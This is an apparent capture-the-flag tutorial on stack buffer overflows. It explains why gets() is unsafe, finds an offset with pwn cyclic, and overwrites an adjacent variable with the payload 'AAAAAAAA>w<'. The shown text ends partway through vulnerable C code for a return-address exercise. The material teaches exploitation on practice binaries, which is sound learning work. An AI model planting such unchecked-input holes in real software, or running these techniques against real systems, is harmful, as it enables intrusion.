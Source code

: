 If you look closely it has gets function, it didn't specify the buffer size, so we can overflow it.  
you can check the manual page of gets function with
```code
man gets
```

The manual page says:
```code
gets()  reads  a  line  from  stdin into the buffer pointed to by s until either a terminating newline or EOF,
which it replaces with a null byte ('\0').  No check for buffer overrun is performed
```

if we run the binary with `./example1` we will get

```code
hi! change the string to >w< and you'll get your flag!
your input:
```


you can try to brute force it by using `pwn cyclic` or `pattern create` in gef. for example:
```code
pwn cyclic 16
aaaabaaacaaadaaa
```

it will create cyclic pattern that can determine spesific offset. if we input it to the system we will get
```code
hi! change the string to >w< and you'll get your flag!
your input: aaaabaaacaaadaaa
string is: caaadaaa
not yet :(
keep trying!
```
if we examine carefully, we have overwritten the `string[8]` with our input. Because the size of `input` variable is 8 bytes, if we supply the gets with more than 8 character it will overflow. In this case it will overflowing `string[8]`.  

so the input has to be 8*`randomcharacter`+ >w<. Lets just A for the padding. so the payload will be
```code
AAAAAAAA>w<
```

supply the payload in the binary and we got the flag.

```code
flag `CTF{buffer_overflo0o0o0ow}`
```

## Overwrite return address 

given the problem in `example2.c` (b0f1.c)
```c
void readFlag(){
	char flag[32];
	FILE *fptr;
	fptr = fopen("flag.txt", "r");
	fread(&flag, sizeof(char), 32, fptr);
	puts(flag);
}

void vuln(){
	char string[8] = "UwU";
	char input[8];
	
	printf("your input: ");
	gets(input);
```